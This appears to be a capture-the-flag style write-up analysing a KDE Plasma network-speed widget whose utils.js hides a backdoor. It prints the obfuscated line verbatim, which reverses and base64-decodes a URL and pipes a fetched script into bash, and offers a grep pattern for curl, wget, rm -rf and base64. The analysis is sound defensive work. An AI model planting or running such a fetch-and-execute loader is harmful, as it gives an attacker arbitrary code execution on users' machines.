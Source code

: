 
```markdown
# 🧾 KDE Plasma Plasmoid Backdoor Analysis

## 📁 Challenge Overview

We were provided with a ZIP archive containing KDE Plasma customization files:

- `look-and-feel/`: Global theme configurations
- `plasmoids/`: User-installed widgets
- `desktoptheme/`: Visual styling elements

Our task was to enumerate the contents and identify any potentially malicious behavior. This stems from a real-world incident where a KDE Global Theme caused a user's `$HOME` directory to be deleted.

---

## 🔍 Enumeration & Analysis

Navigating to:

```

plasmoids/org.kde.netspeedWidget/contents/code/utils.js

````

We discovered this suspicious line:

```js
const PLASMOID_UPDATE_SOURCE = 
    "UPDATE_URL=$(echo 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d); curl $UPDATE_URL:1992/update_sh | bash"
````

### 📖 Deobfuscation Steps

This line performs the following:

1. **Reverses** the string with `rev`
2. **Base64-decodes** the reversed string
3. Assigns it to `UPDATE_URL`
4. Uses `curl` to fetch a remote script
5. Pipes it directly into `bash`

#### Effectively:

```bash
curl <decoded-url>:1992/update_sh | bash
```

This allows **arbitrary code execution** from an **obfuscated remote source**.

---

## 🚨 Why This Is Dangerous

Although the rest of the code monitors network usage by reading `/proc/net/dev`, this injected line:

* Downloads & runs external scripts silently
* Uses obfuscation (`rev | base64 -d`) to avoid detection
* Could easily execute destructive commands (like `rm -rf ~`)

---

## 🧠 Real Risk

Plasmoids in KDE are allowed to execute shell commands by design.

This makes them:

* Functional for system monitoring
* Vulnerable to abuse when sourced from untrusted developers

Whether this was an intentional backdoor or a versioning error, it exposes users to:

* **File deletion**
* **Data exfiltration**
* **Persistent backdoors**

---

## ✅ Conclusion

We identified a KDE Plasma widget that behaves like a **Trojan horse**:

* Masks as a network speed widget
* Executes a hidden, remote shell script

This demonstrates the **critical need for auditing themes/widgets**, especially in environments that allow shell command execution.

---

## 🔐 Recommendations

* **Avoid untrusted plasmoids/themes**
* Audit for shell command patterns like `curl`, `bash`, `wget`, `rm`
* KDE should implement:

  * Sandbox execution
  * Digital signing & verification of themes
  * User warnings for shell command usage

---

## 🛠️ Bonus: Quick Scan Command

To detect dangerous patterns inside a plasmoid/theme folder:

```bash
grep -RiE "curl|bash|wget|rm -rf|base64|rev" ./plasmoids/
```

---

## 🧪 Sample Safe Output (Expected Widget Function)

```js
const NET_DATA_SOURCE =
  "awk -v OFS=, 'NR > 2 { print substr($1, 1, length($1)-1), $2, $10 }' /proc/net/dev";
```

This safely fetches upload/download data from `/proc/net/dev`.

---
